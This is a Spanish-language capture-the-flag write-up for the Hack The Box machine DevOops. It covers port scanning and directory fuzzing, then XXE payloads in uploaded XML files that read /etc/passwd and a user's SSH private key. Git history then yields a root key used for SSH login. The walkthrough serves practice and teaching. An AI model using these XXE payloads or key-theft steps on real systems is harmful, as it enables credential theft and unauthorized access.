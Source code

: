 ```yaml
---
layout: post
title: HTB_DevOops.md
date: 2023/07/10
---
```


# DevOops {-}

## Introduccion {-}

La maquina del dia 05/08/2021 se llama DevOops
.

El replay del live se puede ver aqui

[![S4vitaar Tartar Sauce maquina](https://img.youtube.com/vi/NGNca3P9Tec/0.jpg)](https://www.youtube.com/watch?v=NGNca3P9Tec)

No olvideis dejar un like al video y un comentario...
## Enumeracion {-}

### Reconocimiento de maquina, puertos abiertos y servicios {-} 

#### Ping {-}

```bash
ping -c 1 10.10.10.91
```
ttl: 63 -> maquina Linux. 
Recordar que en cuanto a ttl se trata 64 = linux y 128 = windows. 
Pero como estamos en hackthebox hay un nodo intermediario que hace que el ttl disminuya una unidad

#### Nmap {-}

```bash
nmap -p- --open -T5 -v -n 10.10.10.91 -oG allPorts 
extractPorts allPorts
nmap -sC -sV -p22,5000 10.10.10.91 -oN targeted
```

| Puerto | Servicio | Que se nos occure? | Que falta?   |
| ------ | -------- | ------------------ | ------------ |
| 22     | ssh      | Acceso directorio  | Credenciales |
| 5000   | http     | Web, fuzzing       |              |


### Analizando la web {-}

#### Whatweb {-}

```bash
whatweb http://10.10.10.91:5000
```

Nada muy interesante

#### http-enum {-}

Lanzamos un web scan con nmap.

```bash
nmap --script http-enum -p5000 10.10.10.91 -oN webScan
```

No nos detecta nada

#### Chequear la web por puerto 5000 {-}

Con firefox navegamos en la web para ver lo que es. 

- Under construction
- la web es una simple imagen
- hablan de `.py`
- vemos usuarios

Como no hay nada interesante vamos a por WFUZZ

#### Fuzzing con WFuzz {-}

```bash
wfuzz -c -t 200 --hc=404 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt http://10.10.10.91:5000/FUZZ
```

Encontramos una ruta `/feed` y `/upload`. Lo chequeamos en firefox. 

#### Chequeamos la ruta upload {-}

Vemos una pagina que nos permite uploadear ficheros. Parece que tenemos que uploadear ficheros XML que tiene que tener los elementos
siguientes:

- Author
- Subject
- Content

Huele a **XXE** pero primero tratamos de ver si podemos uploadear ficheros de otro tipo.

creamos ficheros

1. fichero **txt**

    ```bash
    vi test.txt

    EEEEEEE
    ```

1. fichero **php**

    ```php
    vi test.php

    <?php
        echo "EEEEEEEEEEE";
    ?>
    ```

Cuando los uploadeamos no se ve nada. No sabemos si la web nos subio los archivos o no. Intentamos con un fichero XML

```xml
vi test.xml

<elements>
    <Author>S4vitar</Author>
    <Subject>EEEEEEEEE</Subject>
    <Content>EEEAEAEAAAEAAEAE</Content>
</elements>
```

Lo uploadeamos y ahora vemos que el Blogpost a sido processado, vemos los elementos **Author** **Subject** **Content** y que lo a guardado en
`/home/roosa/deploy/src` y que la url para **later reference** es `/uploads/test.xml`

Si miramos lo que hay en `http://10.10.10.91:5000/upload/test.xml` vemos el contenido de nuestro fichero XML




## Evaluacion de vulnerabilidades {-}

### XXE {-}

Si la web nos reporta el contenido de un campo XML, los attackantes pueden approvechar de una *ENTITY* para remplazar el campo reportado
por el contenido de un fichero interno de la maquina.

En este caso, vemos que el campo **Author** esta reportado en la web y le indicamos que queremos ver el contenido del `/etc/passwd` en su lugar.

```xml
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [
  <!ELEMENT foo ANY >
  <!ENTITY xxe SYSTEM "file:///etc/passwd" >]>
<elements>
    <Author>&xxe;</Author>
    <Subject>EEEEEEEEE</Subject>
    <Content>EEEAEAEAAAEAAEAE</Content>
</elements>
```

Uploadeamos el fichero y si vamos en `http://10.10.10.91:5000/upload/nombre-del-fichero.xml` vemos que podemos ver el contenido del `/etc/passwd` de la 
maquina.

Como hemos visto que havia un usuario llamado **roosa**, intentamos ver si tiene un fichero `id_rsa`

```xml
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [
  <!ELEMENT foo ANY >
  <!ENTITY xxe SYSTEM "file:///home/roosa/.ssh/id_rsa" >]>
<elements>
    <Author>&xxe;</Author>
    <Subject>EEEEEEEEE</Subject>
    <Content>EEEAEAEAAAEAAEAE</Content>
</elements>
```

Despues de subir este nuevo fichero podemos ver la id_rsa del usuario roosa.



## Explotacion de vulnerabilidad & Ganando Acceso {-}

### Conexion por SSH {-}

Como ya tenemos una id_rsa nos conectaremos como el usuario roosa

```bash
chmod 600 id_rsa
ssh -i id_rsa roosa@10.10.10.91
```

Ya estamos conectados como Roosa y podemos leer la flag.





## Escalada de privilegios {-}

### Rootear la maquina {-}

```bash
ls -la
id
sudo -l
```

Aqui vemos que el usuario roosa esta en el grupo sudo pero no tenemos su contraseña. Listando los ficheros del usuario **roosa**
vemos que hay muchos ficheros, lo analizamos mas en profundidad.

```bash
find \-type f 2>/dev/null
find \-type f 2>/dev/null | grep -v ".local"
```

Aqui no llama la atencion un directorio que contiene un `.git`. Sabiendo que repositorios **git** contienen un historico de tratamiento
de ficheros nos dirigimos en este proyecto y miramos el historico de comits.

```bash
cd work/blogfeed/
ls -la
git log
```

mirando el historico, vemos un mensaje un poco turbio **reverted accidental commit with proper key**

miramos lo que a passado en este commit. Nos copiamos el identificador del commit.

```bash
git log -p 33e87c312c08735a02fa9c796021a4a3023129ad
```

Aqui vemos que han borrado un key para ponerle otra. La copiamos y de la misma manera que con el usuario roosa, intentamos conectarnos como
root por ssh.

```bash
ssh -i id_rsa2 root@10.10.10.91
```

Y hemos podido entrar... Ya podemos examinar la flag.


